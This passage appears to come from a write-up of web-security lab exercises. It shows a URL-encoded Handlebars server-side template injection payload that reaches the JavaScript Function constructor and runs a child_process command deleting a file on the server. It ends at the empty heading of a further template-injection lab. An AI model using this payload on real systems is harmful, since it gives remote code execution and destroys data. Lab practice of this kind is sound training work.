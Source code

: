 URL encode: 

`wrtz%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0A%20%20%20%20%7B%7B%23with%20%22e%22%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%28lookup%20string.sub%20%22constructor%22%29%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20string.split%20as%20%7Ccodelist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%22return%20require%28%27child_process%27%29.exec%28%27rm%20%2Fhome%2Fcarlos%2Fmorale.txt%27%29%3B%22%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string.sub.apply%200%20codelist%29%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Fwith%7D%7D`

![image-20250708000259517](./image/image-20250708000259517.png)

### Lab 5: Server-side template injection with information disclosure via user-supplied objects

Lab des: 
